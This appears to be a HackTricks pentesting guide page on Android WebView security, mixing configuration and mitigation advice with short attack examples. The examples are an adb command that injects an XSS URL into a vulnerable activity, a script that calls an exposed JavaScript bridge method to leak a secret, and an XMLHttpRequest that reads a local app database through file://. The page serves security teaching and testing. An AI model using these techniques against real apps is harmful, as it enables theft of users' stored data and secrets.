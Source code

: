 # Webview Attacks

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Simplified Guide on WebView Configurations and Security

### Overview of WebView Vulnerabilities

A critical aspect of Android development involves the correct handling of WebViews. This guide highlights key configurations and security practices to mitigate risks associated with WebView usage.

![WebView Example](../../.gitbook/assets/image%20(718).png)

### **File Access in WebViews**

By default, WebViews permit file access. This functionality is controlled by the `setAllowFileAccess()` method, available since Android API level 3 (Cupcake 1.5). Applications with the **android.permission.READ_EXTERNAL_STORAGE** permission can read files from external storage using a file URL scheme (`file://path/to/file`).

#### **Deprecated Features: Universal and File Access From URLs**

- **Universal Access From File URLs**: This deprecated feature allowed cross-origin requests from file URLs, posing a significant security risk due to potential XSS attacks. The default setting is disabled (`false`) for apps targeting Android Jelly Bean and newer.
  - To check this setting, use `getAllowUniversalAccessFromFileURLs()`.
  - To modify this setting, use `setAllowUniversalAccessFromFileURLs(boolean)`.

- **File Access From File URLs**: This feature, also deprecated, controlled access to content from other file scheme URLs. Like universal access, its default is disabled for enhanced security.
  - Use `getAllowFileAccessFromFileURLs()` to check and `setAllowFileAccessFromFileURLs(boolean)` to set.

#### **Secure File Loading**

For disabling file system access while still accessing assets and resources, the `setAllowFileAccess()` method is used. With Android R and above, the default setting is `false`.
- Check with `getAllowFileAccess()`.
- Enable or disable with `setAllowFileAccess(boolean)`.

#### **WebViewAssetLoader**

The **WebViewAssetLoader** class is the modern approach for loading local files. It uses http(s) URLs for accessing local assets and resources, aligning with the Same-Origin policy, thus facilitating CORS management.

### **JavaScript and Intent Scheme Handling**

- **JavaScript**: Disabled by default in WebViews, it can be enabled via `setJavaScriptEnabled()`. Caution is advised as enabling JavaScript without proper safeguards can introduce security vulnerabilities.

- **Intent Scheme**: WebViews can handle the `intent` scheme, potentially leading to exploits if not carefully managed. An example vulnerability involved an exposed WebView parameter "support_url" that could be exploited to execute cross-site scripting (XSS) attacks.

![Vulnerable WebView](../../.gitbook/assets/image%20(719).png)

Exploitation example using adb:

```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```

### Javascript Bridge

A feature is provided by Android that enables **JavaScript** in a WebView to invoke **native Android app functions**. This is achieved by utilizing the `addJavascriptInterface` method, which integrates JavaScript with native Android functionalities, termed as a _WebView JavaScript bridge_. Caution is advised as this method allows all pages within the WebView to access the registered JavaScript Interface object, posing a security risk if sensitive information is exposed through these interfaces.

### Important Considerations

- **Extreme caution is required** for apps targeting Android versions below 4.2 due to a vulnerability allowing remote code execution through malicious JavaScript, exploiting reflection.

#### Implementing a JavaScript Bridge

- **JavaScript interfaces** can interact with native code, as shown in the examples where a class method is exposed to JavaScript:

```javascript
@JavascriptInterface
public String getSecret() {
    return "SuperSecretPassword";
};
```

- JavaScript Bridge is enabled by adding an interface to the WebView:

```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge");
webView.reload();
```

- Potential exploitation through JavaScript, for instance, via an XSS attack, enables the calling of exposed Java methods:

```html
<script>alert(javascriptBridge.getSecret());</script>
```

- To mitigate risks, **restrict JavaScript bridge usage** to code shipped with the APK and prevent loading JavaScript from remote sources. For older devices, set the minimum API level to 17.

### Reflection-based Remote Code Execution (RCE)

- A documented method allows achieving RCE through reflection by executing a specific payload. However, the `@JavascriptInterface` annotation prevents unauthorized method access, limiting the attack surface.

### Remote Debugging

- **Remote debugging** is possible with **Chrome Developer Tools**, enabling interaction and arbitrary JavaScript execution within the WebView content.

#### Enabling Remote Debugging

- Remote debugging can be enabled for all WebViews within an application by:

```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
    WebView.setWebContentsDebuggingEnabled(true);
}
```

- To conditionally enable debugging based on the application's debuggable state:

```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
    if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
    { WebView.setWebContentsDebuggingEnabled(true); }
}
```

## Exfiltrate arbitrary files

- Demonstrates the exfiltration of arbitrary files using an XMLHttpRequest:

```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        alert(xhr.responseText);
    }
}
xhr.open('GET', 'file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db', true);
xhr.send(null);
```


## References
* [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
* [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
* [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
